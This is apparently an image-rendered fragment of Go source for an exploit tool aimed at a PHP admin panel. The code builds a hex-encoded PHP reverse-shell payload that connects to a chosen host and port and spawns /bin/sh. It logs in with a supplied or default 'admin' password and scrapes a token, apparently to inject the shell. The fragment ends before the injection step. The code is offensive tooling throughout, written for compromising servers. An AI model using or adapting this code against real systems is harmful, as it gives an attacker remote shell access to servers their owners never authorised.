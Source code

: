    type Options struct {
        url, password, host, port string
       
    }


    var HOST string
    var URL string
    var PORT string
    var PASSWD string

    func generate_shell() string{
        payload := "php -r '$sock=fsockopen(\"HOST\", PORT);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
        payload = strings.Replace(payload, "HOST", HOST, 1)
        payload = strings.Replace(payload, "PORT", PORT, 1)
        return hex.EncodeToString([]byte(payload))
    }

    func extractFlags() *Options {
        urlPtr := flag.String("u", "http://10.0.0.1/admin/", "Set the Url of the admin panel")
        passPtr := flag.String("pass", "admin", "Admin Password")
        hostPtr := flag.String("host", "10.0.0.1", "Set the host for the reverse shell")
        portPtr := flag.String("p", "1337", "Set Port for the reverse shell")
        flag.Parse()

        return &Options{*urlPtr, *passPtr, *hostPtr,*portPtr}
    }

    func doLogin(ses *grequests.Session) *grequests.Session{
        log.Println("Logging In...")
        resp, err := ses.Post(URL+"index.php",&grequests.RequestOptions{Data: map[string]string{"pw": PASSWD}})
        if err != nil {
            log.Fatal("Error logging-in: ", err)
        }

        if resp.Ok != true {
            log.Println("Request for log-in did not return OK")
        }
        log.Println("Logged In!")
        return ses
    }

    func getToken(ses *grequests.Session) string{
        resp, err:= ses.Get(URL+"index.php",nil)
            if err != nil {
            log.Fatal("Error getting token: ", err)
        }

        if resp.Ok != true {
            log.Println("Request for getting token did not return OK")
        }
        html := soup.HTMLParse(resp.String())
        token := html.Find("div","id","token").Text()
        return token
    }
